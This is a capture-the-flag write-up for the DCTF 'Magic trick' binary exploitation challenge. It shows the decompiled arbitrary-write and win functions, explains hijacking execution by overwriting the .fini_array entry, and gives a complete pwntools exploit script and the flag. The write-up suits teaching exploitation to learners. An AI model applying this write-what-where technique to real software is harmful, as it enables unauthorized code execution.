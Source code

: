 # Magic trick

How about a magic trick?
nc dctf-chall-magic-trick.westeurope.azurecontainer.io 7481

## Challenge

We have a single arbitrary write and a win function.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Arbitrary Write

```c
void sym.magic(void)
{
    int64_t in_FS_OFFSET;
    int64_t var_20h;
    int64_t var_18h;
    int64_t var_10h;
    int64_t canary;

    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.imp.puts("What do you want to write");
    sym.imp.__isoc99_scanf("%llu", &var_20h);
    sym.imp.puts("Where do you want to write it");
    sym.imp.__isoc99_scanf("%llu", &var_18h);
    sym.imp.puts("thanks");
    var_10h = var_18h;
    *(int64_t *)var_18h = var_20h;
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return;
}
```

### Win Function

```c
void sym.win(void)
{
    int64_t in_FS_OFFSET;
    undefined8 uStack48;
    undefined8 *puStack40;
    undefined8 *puStack32;
    int64_t iStack24;
    code *pcStack16;
    
    pcStack16 = (code *)0x400677;
    sym.imp.puts("You are a real magician");
    pcStack16 = (code *)0x400683;
    sym.imp.system("cat flag.txt");
    pcStack16 = sym.magic;
    sym.imp.exit(1);
}

## Solution

Using the arbitrary write, we can overwrite the entry in `.fini_array` so that the program jumps to a specified address when it returns.
By overwriting this value with the address of the `win` function, the program will call this function and read us the flag.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host dctf-chall-magic-trick.westeurope.azurecontainer.io --port 7481 magic_trick
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('magic_trick')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'dctf-chall-magic-trick.westeurope.azurecontainer.io'
port = int(args.PORT or 7481)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

win = 0x00400667
dtors = 0x00600a00

io.sendline(str(win))
io.sendline(str(dtors))

io.interactive()
```

## Flag

`dctf{1_L1k3_M4G1c}`

